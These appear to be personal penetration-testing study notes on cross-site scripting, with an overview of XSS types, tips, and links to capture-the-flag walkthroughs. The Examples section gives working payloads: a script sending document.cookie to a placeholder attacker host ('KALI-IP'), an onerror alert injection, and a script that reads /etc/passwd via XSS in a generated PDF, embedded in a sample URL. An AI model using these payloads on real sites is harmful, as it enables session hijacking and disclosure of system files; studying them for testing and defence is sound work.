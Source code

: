 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```


Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users.  `XSS` is very similar to `HTML Injection` in practice. However, `XSS` involves the injection of `JavaScript` code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of `XSS`:

|Type|Description|
|---|---|
|`Reflected XSS`|Occurs when user input is displayed on the page after processing (e.g., search result or error message).|
|`Stored XSS`|Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).|
|`DOM XSS`|Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title).|

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

1. Remember it relies on an external user and therefor may be unreliable, this may take time or multiple login attempts.
2. The value which gets displayed and can be modified may be in a strange place, check the URL and request parameters.

# Notes

[[Edge Side Include (ESI)]] is a manor of XXS which can bypass many XXS filters if ESI is being used by the website.

# Walkthrough

1. [HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)
2. [HTB: Bankrobber | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html)

# Examples

## Stealing Cookies

```html
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.

## Running Code

[Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
```

`https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>&date=2017-08-11&settlement_type=all&advice_id=undefined`